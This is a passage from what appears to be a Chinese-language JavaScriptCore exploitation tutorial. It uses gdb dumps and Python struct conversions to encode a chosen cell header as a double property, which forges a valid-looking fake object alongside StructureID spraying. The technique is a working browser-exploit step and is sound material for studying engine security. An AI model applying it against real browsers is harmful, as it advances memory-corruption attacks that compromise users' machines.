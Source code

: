 而且除了`StructureID`之外，其它的字段数据并未发生变化，那就可以在第一个属性填充`0x0100160000001000`
```
(gdb) x/gx 0x7fffaf4b00c0
0x7fffaf4b00c0:	0x0100160000000127
(gdb) x/gx 0x7fffaf4b0140
0x7fffaf4b0140:	0x0100160000000128
(gdb) x/gx 0x7fffaf4b01c0
0x7fffaf4b01c0:	0x0100160000000129
(gdb) x/gx 0x7fffaf4b0240
0x7fffaf4b0240:	0x010016000000012a
(gdb) x/gx 0x7fffaf4b02c0
0x7fffaf4b02c0:	0x010016000000012b
```

转换数据
```python
>>> struct.unpack("d", struct.pack("Q", 0x0100160000001000))[0]
7.330283319472755e-304
```

把这个数据写到第一个属性
```
>>> obj = {}
>>> obj.x = 7.330283319472755e-304
>>> obj.y = 2
>>> obj.z = 3
>>> delete obj.y
>>> describe(obj)
Object: 0x7fffaf4b0080 with butterfly (nil) (Structure 0x7fffaf470460:[Object, {x:0, z:2}, NonArray, Proto:0x7fffaf4b4000, UncacheableDictionary, Leaf]), StructureID: 297

(gdb) x/8gx 0x7fffaf4b0080
0x7fffaf4b0080:	0x0100160000000129	0x0000000000000000
0x7fffaf4b0090:	0x0101160000001000	0x0000000000000000
0x7fffaf4b00a0:	0xffff000000000003	0x0000000000000000
0x7fffaf4b00b0:	0x0000000000000000	0x0000000000000000
```

但我们发现第一个属性被加上了`0x0001000000000000`，这是用于表示浮点数的标志位
```
* The scheme we have implemented encodes double precision values by performing a
* 64-bit integer addition of the value 2^48 to the number. After this manipulation
* no encoded double-precision value will begin with the pattern 0x0000 or 0xFFFF.
* Values must be decoded by reversing this operation before subsequent floating point
* operations may be peformed.
```

那我们只需要减去这个值再编码即可
```python
>>> struct.unpack("d", struct.pack("Q", 0x0100160000001000 - 0x0001000000000000))[0]
7.082855106403439e-304
```

再来一遍，效果很好，现在只需要配合上面的Spray分配`StructureID`即可完成合法对象的构造
```
>>> obj = {}
>>> obj.x = 7.082855106403439e-304
>>> obj.y = 2
>>> obj.z = 3
>>> delete obj.y
>>> describe(obj)
Object: 0x7fffaf4b0080 with butterfly (nil) (Structure 0x7fffaf470690:[Object, {x:0, z:2}, NonArray, Proto:0x7fffaf4b4000, UncacheableDictionary, Leaf]), StructureID: 302

(gdb) x/8gx 0x7fffaf4b0080
0x7fffaf4b0080:	0x010016000000012e	0x0000000000000000
0x7fffaf4b0090:	0x0100160000001000	0x0000000000000000
0x7fffaf4b00a0:	0xffff000000000003	0x0000000000000000
```
